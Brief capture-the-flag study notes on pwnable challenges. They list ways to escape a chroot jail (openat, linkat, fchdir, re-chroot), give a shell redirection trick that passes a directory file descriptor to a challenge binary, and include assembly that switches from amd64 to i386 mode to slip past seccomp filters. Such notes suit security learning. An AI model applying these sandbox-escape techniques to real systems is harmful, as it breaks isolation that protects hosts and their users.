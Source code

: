 pwnable notes

# escape chroot
https://github.com/earthquake/chw00t
```console
- wrong setup (chroot without chdir)
    -> open("../../flag")

- can open a directory befor chroot + chdir
    -> 1. use openat then read target file
    -> 2. use linkat
    -> 3. use fchdir
    -> 4. re chroot again to escapse the old chroot
    -> 5. if no opened file? let open once then pass through pipe (check pipe trick)
```

# pipe trick
you can open a file and pass to the fd you want like this
```console
/challenge/babyjail_level8 0 < shellcode-raw 3</
```

# escape seccomp
exchange from amd64 into i386 to use difference number of SYS_No of syscalls
```console
    xor rsp, rsp
    mov esp, 0x1337800
    mov DWORD PTR [esp+4], 0x23
    mov DWORD PTR [esp], 0x1337080
    retf
```